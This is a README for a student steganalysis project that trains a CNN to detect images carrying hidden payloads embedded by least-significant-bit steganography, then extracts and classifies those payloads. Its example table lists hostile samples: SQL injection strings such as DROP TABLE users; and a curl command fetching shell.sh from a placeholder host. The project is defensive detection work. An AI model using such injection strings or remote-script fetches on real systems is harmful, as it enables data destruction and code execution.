

# CNN-Based Autonomous Steganalysis and Malicious Payload Detection

## Overview

This project was developed for the CENG 3544 - Computer and Network Security course at Muğla Sıtkı Koçman University.

The goal of this project is to detect hidden malicious payloads embedded inside image files using steganalysis and deep learning techniques. The proposed framework combines:

- LSB-based steganographic attack simulation
- CNN-based steganalysis
- Payload extraction
- Payload classification
- Autonomous security decision making

The system is capable of identifying whether an image contains hidden information and determining whether the extracted payload represents a potential cybersecurity threat.

---

## Project Motivation

Steganography enables attackers to hide malicious content inside seemingly harmless image files. Traditional security systems often fail to detect such hidden information because the carrier image appears visually unchanged.

This project investigates whether Convolutional Neural Networks (CNNs) can effectively detect steganographic modifications and whether hidden payloads can be automatically extracted and classified.

---

## System Architecture

  

The proposed framework consists of two major phases:

### 1. Attack Simulation

- Clean images are collected.
- Malicious payloads are embedded using Least Significant Bit (LSB) steganography.
- Stego images are generated automatically.

Embedded payload examples:

- SQL Injection
- Cross-Site Scripting (XSS)
- Shell Commands
- Benign Text Messages

### 2. Autonomous Defense

- CNN-based steganalysis
- Payload extraction
- Payload classification
- Security decision engine

Workflow:

text Clean Images       |       v LSB Payload Embedding       |       v Stego Images       |       v CNN Steganalysis       |       +------> CLEAN --> Allow File       |       v Payload Extraction       |       v Payload Classification       |       v Security Agent       |       +------> Malicious --> Quarantine       |       +------> Benign --> Allow 

---

## Dataset

### Initial Dataset

| Class | Count |
|---------|---------|
| Clean | 131 |
| Stego | 131 |
| Total | 262 |

### Expanded Dataset

| Class | Count |
|---------|---------|
| Clean | 1000 |
| Stego | 1000 |
| Total | 2000 |

The dataset expansion was performed to improve model generalization and reduce overfitting risks.

---

## Features

### Steganography

- LSB payload embedding
- PNG support
- BMP support
- JPEG support

### Steganalysis

- CNN-based image classification
- Automatic clean/stego detection
- ROC-AUC evaluation
- Confusion matrix generation

### Payload Analysis

- LSB payload extraction
- SQL Injection detection
- XSS detection
- Shell command detection
- Benign text classification

### Autonomous Security Agent

- End-to-end image inspection
- Threat identification
- Security recommendations
- Automatic quarantine decisions

---

## Technologies Used

- Python
- PyTorch
- NumPy
- Pillow (PIL)
- Scikit-Learn
- Matplotlib
- Pandas
- Apple Silicon MPS Acceleration

---

## Installation

Clone the repository:

bash git clone https://github.com/wakanda93/stego-security-project.git  cd stego-security-project 

Create virtual environment:

bash python -m venv venv 

Activate virtual environment:

macOS/Linux:

bash source venv/bin/activate 

Install dependencies:

bash pip install -r requirements.txt 

---

## Usage

### Generate Dataset

bash python src/generate_dataset.py --payload-rate 0.05 --output-format png 

### Train CNN Model

bash python src/train_cnn.py 

### Evaluate Model

bash python src/evaluate_model.py 

### Run Chi-Square Analysis

bash python src/classical_chi_square.py 

### Run Block-Based Chi-Square Analysis

bash python src/classical_chi_square_blocks.py 

### Payload Extraction

bash python src/payload_classifier.py --image data/processed/stego/stego_4.png 

### Autonomous Security Agent

bash python src/security_agent.py --image data/processed/stego/stego_4.png 

---

## Experimental Results

### Performance Comparison

| Method | Accuracy | F1-Score | ROC-AUC |
|----------|----------|----------|----------|
| CNN (BMP) | 1.0000 | 1.0000 | 0.9997 |
| CNN (PNG) | 1.0000 | 1.0000 | 1.0000 |
| CNN (JPEG) | 0.5000 | 0.0000 | 0.4772 |
| Chi-Square Attack | 0.5573 | 0.4867 | 0.5676 |

### Key Findings

- CNN significantly outperformed traditional Chi-Square steganalysis.
- PNG and BMP achieved near-perfect detection performance.
- JPEG compression negatively affected LSB artifact preservation.
- Payload extraction successfully recovered embedded malicious content.
- The autonomous security agent correctly identified and categorized malicious payloads.

---

## Payload Classification Examples

| Payload | Classification |
|----------|----------|
| ' OR '1'='1 | SQL Injection |
| DROP TABLE users; | SQL Injection |
|  | Cross-Site Scripting (XSS) |
| curl http://example.com/shell.sh | Shell Command |
| Normal Text | Benign |

---

## Project Structure

text data/ ├── raw_clean/ ├── processed/ │   ├── clean/ │   └── stego/  payloads/  models/  results/  src/  report/ 

---

## Future Work

Possible future improvements include:

- Transformer-based steganalysis
- Larger datasets
- Advanced steganographic algorithms
- Real-time deployment
- Adversarial robustness evaluation
- Multi-modal steganography detection

---

## Repository

GitHub Repository:

https://github.com/wakanda93/stego-security-project

---

# Türkçe Özet

Bu proje görüntü dosyaları içerisine LSB (Least Significant Bit) steganografi yöntemi ile gömülen zararlı yüklerin tespit edilmesini amaçlamaktadır.

Projede CNN tabanlı steganaliz yaklaşımı kullanılmış ve sonuçlar geleneksel Chi-Square yöntemi ile karşılaştırılmıştır.

Sistem yalnızca stego görüntüleri tespit etmekle kalmamakta, aynı zamanda gizli verileri çıkartabilmekte ve SQL Injection, XSS ve Shell Command gibi saldırı türlerini sınıflandırabilmektedir.

Bu sayede proje klasik bir steganaliz aracından öteye geçerek otonom bir siber güvenlik ajanına dönüşmektedir.
